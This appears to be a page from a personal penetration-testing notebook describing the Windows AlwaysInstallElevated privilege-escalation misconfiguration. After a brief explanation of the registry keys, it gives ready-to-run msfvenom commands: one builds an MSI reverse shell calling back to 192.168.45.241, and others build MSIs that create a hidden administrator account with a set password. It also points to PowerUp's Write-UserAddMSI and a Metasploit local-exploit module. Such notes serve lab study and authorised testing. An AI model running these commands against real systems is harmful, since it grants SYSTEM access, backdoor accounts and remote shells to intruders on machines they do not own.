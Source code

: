 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# AlwaysInstalledElevated

Windows systems are affected by a privilege escalation vulnerability when the registry keys `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` and `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated` are both set to `1`. This misconfiguration allows any local user to execute Windows Installer (`.msi`) packages with elevated privileges. Exploitation is achieved by generating a malicious `.msi` payload and executing it through `msiexec`, which results in code execution as `SYSTEM`.

There are [various ways](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated) to exploit this misconfiguration:

{% tabs %}
{% tab title="RevShell" %}
{% code overflow="wrap" %}
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f msi -o revshell.msi
```
{% endcode %}
{% endtab %}

{% tab title="Admin User" %}
Create an admin user:

{% code overflow="wrap" %}
```bash
# Create an admin user (No UAC format)
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi

# Create an admin user (Using the msiexec the uac wont be prompted)
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi

# PowerUp
Write-UserAddMSI
```
{% endcode %}
{% endtab %}

{% tab title="Meterpreter" %}
If you have a meterpreter session you can automate this technique using the module:

```bash
> use exploit/windows/local/always_install_elevated
```
{% endtab %}
{% endtabs %}
